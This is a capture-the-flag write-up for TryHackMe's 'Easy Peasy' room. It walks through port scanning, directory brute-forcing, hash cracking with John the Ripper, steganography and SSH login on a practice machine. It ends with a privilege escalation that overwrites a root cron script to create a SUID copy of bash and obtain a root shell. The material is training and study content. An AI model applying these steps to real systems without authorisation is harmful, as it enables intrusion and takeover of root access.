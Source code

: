 ```yaml
---
slug: easy-peasy
title: Easy Peasy
authors: [hueami]
tags: [tryhackme, ctf]
comments: true
---
```

Welcome to my first write-up for the CTF room [Easy Peasy on tryhackme](https://tryhackme.com/room/easypeasyctf). Let's dive into the fascinating world of Capture The Flag challenges!

### Task 1: Enumeration through nmap

1. Our first step is to understand the landscape we're dealing with. We'll start by enumerating all the ports using nmap.

```bash
$ sudo nmap 10.10.160.74 -p0-

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:33 CET
Nmap scan report for 10.10.160.74
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown
```
This fast enumeration over all ports gives us our first piece of the puzzle - the number of open ports.
Next, we perform a detailed scan over the open ports.

```bash
sudo nmap 10.10.160.74 -p080,6498,65524 -sV -A -T5

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:40 CET
Nmap scan report for 10.10.160.74
Host is up (0.050s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   51.18 ms 10.8.0.1
2   51.32 ms 10.10.5.48
```
This information helps us to answer questions 2 and 3.

### Task 2: Compromising the machine 
With our enumeration complete, we move on to compromising the machine.

The room provides a task file that appears to be a wordlist. We’ll save this for later use.
We then proceed to scan subdirectories using feroxbuster, with the directory wordlist `SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt``.
```bash
$ feroxbuster -u http://10.10.160.74 -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Feroxbuster uncovers a directory with another subdirectory. Both directories contain an image, but only the second subdirectory contains hidden information in the source code.

The string appears to be base64 encoded, so we decode it:

```bash
echo ZmxhZ3tmMXJz**********== | base64 -d
```
Decoded string is the flag asked for in question 1.

The two images do not seem to contain valuable information. I checked the EXIF information and tried to find some hidden messages with an [steganography tool](https://futureboy.us/stegano/decinput.html), but had no success. So, I continued to look at the Apache webserver running on port 65524.

The index.html served on port 65524 displayed a default Apache site. The flag for question 3 is hidden in the text.

The robots.txt file (nikto found it) shows me a strange string with the message that this agent may enter. Using it as a custom user agent does not work. I tried several online hash rainbow tables, e.g. [crackstation](https://crackstation.net/), [nitrxgen](https://www.nitrxgen.net/), [hashes.com](https://hashes.com/en/decrypt/hash), [md5hashing](https://md5hashing.net). Search in all types of [md5hashing](https://md5hashing.net) finally finds the flag for question 2.

Looking at the sourcecode revealed a hidden message:
`<p hidden>its encoded with ba....:ObsJmP173N2X6d**********</p>`
I tried several baseX encodings with [cyberchef](https://gchq.github.io/CyberChef/) until I had a hit: `/n0th1ng**********` - looks like a directory and the answer to question 4.

There are two images in the subdirectory. The binary code shown is rubbish. The steganography tool is not able to find a message. In the page source in the subdirectory, I found the string `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e********`. I tried [crackstation](https://crackstation.net/) - no results. So I ran John the Ripper on the string with the previously saved wordlist `easypeasy.txt`:

```bash
$ echo 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e******** > easypeasy
$ john --wordlist=~/Downloads/easypeasy.txt ./easypeasy
```
John gets a result: `m*****************b`
This is the answer for question 5.

I try this password with the two images in the [steganography tool](https://futureboy.us/stegano/decinput.html) - the binary code image is a hit. I get a username `b****g` and a binary encoded password `i**************************y`. The password is the answer for question 6.

With a username and a password, I try to use them for the SSH service that Nmap found on port 6498. It works perfectly fine. The user flag is located in the user’s home as expected, but it looks wrong:

```bash
$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
s********************}
```

This is a hint on the used encryption - the Caesar (or ROT) cipher. The first letter s should be an f for flag, I guessed. That meant I had to rotate by 13 characters - ROT13. Flag found and question 7 solved.

A message caught my attention:

```bash
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
```
This suggested that there might be a cron job running that I could exploit to gain root access. To confirm this, I checked the crontab file:

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
Indeed, there was a shell script named `.mysecretcronjob.sh` running every minute with root permissions. Checking the permissions of the file showed that the owner was the current user and they had permission to write to this file. This opened up a lot of options for exploitation. I decided to modify the script to make a copy of bash and set the SUID bit, so it would run with its owner’s (root) permissions.

```bash
echo 'cp /bin/bash /var/www/bash; chmod +s /var/www/bash' > /var/www/.mysecretcronjob.sh
```
A few moments later, the modified bash was available. Executing it with the argument `-p` ensured that it did not drop the root privilege, as it would normally do. With the root shell, I was now able to read the root flag:

```bash
$ cat /root/.root.txt
```
The flag looked like there would be a hash to crack again - but fortunately, the form for question 8 accepted it and I did not have to crack a hash again.

And that concludes our journey through this CTF challenge. I hope you found it insightful and engaging. Stay tuned for more adventures in the world of IT security!